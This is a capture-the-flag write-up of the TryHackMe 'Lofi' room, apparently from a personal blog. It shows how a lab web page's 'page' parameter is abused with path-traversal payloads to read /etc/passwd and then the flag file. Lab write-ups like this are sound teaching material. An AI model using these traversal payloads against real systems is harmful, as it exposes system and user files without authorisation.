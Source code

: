 ```yaml
---
title: 'TryHackMe: Lofi'
author: AmcaQt
categories: [TryHackMe]
tags: [web, Enumeration, LFI]
render_with_liquid: false
media_subpath: /images/thm_lofi/
image:
  path: room_card.png
date: 2024-09-16 00:00 +0000
---
```


![Tryhackme Room Link](room_image.PNG){: width="600" height="150" .shadow }
_<https://tryhackme.com/r/room/lofi>_

## Description

Lo-Fi was a very simple room where we exploited a `Local File Inclusion (LFI)` vulnerability to read the flag.

## Enumaration

In this challenge, we skip the Nmap scan. Since the room description already asks us to visit a web page, and we should test for local file inclusion here.

First we open the website direct by the IP Address given ( Machine IP ), looks like a normal website to listen a Lofi Music

![WebPage](1.PNG)

## Discovering LFI

By clicking the function on bottom right on `Discography` box, noticed that it direct to url `http://MACHINE_IP/?page=relax.php`, that means we can abuse the URL by manipulating the GET request using the following payload

![Local File Inclusion](clue-1.PNG)

```
http://MACHINE_IP/?page=relax.php ~> Normal link to show content on filename relax.php
http://MACHINE_IP/?page=../../../etc/passwd ~> Shown it was not found
http://MACHINE_IP/?page=../../../../../../etc/passwd ~> Shown /etc/passwd content
```

Now we found Vulnerability of [LFI](https://www.invicti.com/learn/local-file-inclusion-lfi/)

## Gaining Flag

So that we found Entry Point of LFI, maybe we can try view the file direct from the payload ? 

Change the payload from `../../../../../../etc/passwd` into `../../../../../../flag.txt`, then you'll get the flag.

![Flag](FLAG.jpg)

## Conclusion

Yet another fun room with my favourite Vulnerability, Love it and hope to play more room with Local File Inclusion Vulnerability

## Happy Hacking

![](https://i.pinimg.com/originals/7b/41/c1/7b41c1965ed2d95cb4c8894efe299af1.gif)